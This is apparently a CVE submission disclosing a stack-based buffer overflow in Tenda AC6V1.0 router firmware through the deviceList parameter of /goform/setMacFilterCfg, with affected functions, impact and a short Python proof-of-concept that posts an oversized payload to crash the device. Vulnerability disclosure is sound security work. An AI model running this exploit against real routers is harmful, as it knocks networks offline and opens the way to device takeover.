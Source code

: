 # CVE Submission: Stack-Based Buffer Overflow in Tenda AC6V1.0(firmware V15.03.05.19) setMacFilterCfg

## Summary
A stack-based buffer overflow vulnerability in the Tenda AC6V1.0 router (firmware V15.03.05.19) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `deviceList` parameter in the `/goform/setMacFilterCfg` endpoint. The flaw resides in the `sub_BE73C` function (aliased as `parse_macfilter_rule`), which uses unsafe `strcpy` operations without bounds checking, enabling stack corruption.

## Details
- **Vendor**: Tenda
- **Product**: Tenda AC6V1.0 
- **Firmware Version**: V15.03.05.19
- **Firmware Download**: [https://tenda.com.cn/material/show/2681](https://tenda.com.cn/material/show/2681)
- **Component**: `/goform/setMacFilterCfg` (functions `formSetMacFilterCfg` and `sub_BE73C`)
- **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
- **CVE ID**: Pending
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description
The vulnerability exists in the `formSetMacFilterCfg` function, which processes HTTP POST requests to `/goform/setMacFilterCfg`. The `deviceList` parameter is passed to `sub_BD758` and then to `sub_BE73C` (parse_macfilter_rule), where it is split at a carriage return (`\r`, ASCII 13). The portion after `\r` is copied into a fixed-size buffer using `strcpy(a2, src)` without length validation. If the input exceeds the buffer size (likely 64 bytes, based on typical Tenda firmware structs), it overflows the stack, potentially overwriting return addresses or other critical data.

This allows attackers to:
- Cause a denial of service (DoS) by crashing the router.
- Achieve remote code execution (RCE) by crafting a payload with ROP gadgets to call functions like `system("/bin/sh")`, as demonstrated in similar CVEs.



## PoC: Python Exploit Script
```python
from pwn import *
import requests

payload = cyclic(1000)  # 1000-byte cyclic pattern to overflow buffer
url = "http://192.168.100.72/goform/setMacFilterCfg"
cookie = {"Cookie": "password=rfl1qw"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)  # Double POST to bypass potential checks
print(response.text)
```


## Impact
- **Denial of Service (DoS)**: The oversized payload crashes the router’s web server, disrupting network connectivity and management access.
- **Remote Code Execution (RCE)**: With a crafted ROP chain, attackers can execute arbitrary commands, leading to:
  - Full device compromise (e.g., shell access).
  - Network traffic interception or manipulation (e.g., DNS hijacking).
  - Installation of persistent backdoors or malware.
  - Botnet recruitment.

